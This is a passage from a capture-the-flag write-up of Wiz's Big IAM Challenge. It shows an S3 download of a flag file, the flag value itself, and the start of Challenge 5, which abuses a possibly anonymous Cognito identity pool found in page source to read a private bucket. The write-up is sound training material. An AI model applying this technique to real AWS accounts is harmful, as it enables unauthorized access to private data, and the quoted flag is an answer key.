 ```
> aws s3 cp s3://thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt /tmp/
Completed 42 Bytes/42 Bytes (454 Bytes/s) with 1 file(s) remainingdownload: s3://thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt to ../../tmp
/flag-as-admin.txt
```

```
> cat ../../tmp/flag-as-admin.txt
{wiz:principal-arn-is-not-what-you-think}
```

## Challenge 5 - Do I know you?
The given hint: 
> We configured AWS Cognito as our main identity provider. Let's hope we didn't make any mistakes.

The given IAM policy:
```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "VisualEditor0",
            "Effect": "Allow",
            "Action": [
                "mobileanalytics:PutEvents",
                "cognito-sync:*"
            ],
            "Resource": "*"
        },
        {
            "Sid": "VisualEditor1",
            "Effect": "Allow",
            "Action": [
                "s3:GetObject",
                "s3:ListBucket"
            ],
            "Resource": [
                "arn:aws:s3:::wiz-privatefiles",
                "arn:aws:s3:::wiz-privatefiles/*"
            ]
        }
    ]
}
```

The policy seems to be added to an Cognito identity pool. It is possible that the pool is configured to allow anonymous authentication. To test this we need the identity pool ID associated with it. This is found in the source code of the challenge website in a script tag.

```
  AWS.config.region = 'us-east-1';
  AWS.config.credentials = new AWS.CognitoIdentityCredentials({IdentityPoolId: "us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b"});
  // Set the region
  AWS.config.update({region: 'us-east-1'});

  $(document).ready(function() {
    var s3 = new AWS.S3();
    params = {
      Bucket: 'wiz-privatefiles',
      Key: 'cognito1.png',
      Expires: 60 * 60
    }

    signedUrl = s3.getSignedUrl('getObject', params, function (err, url) {
```
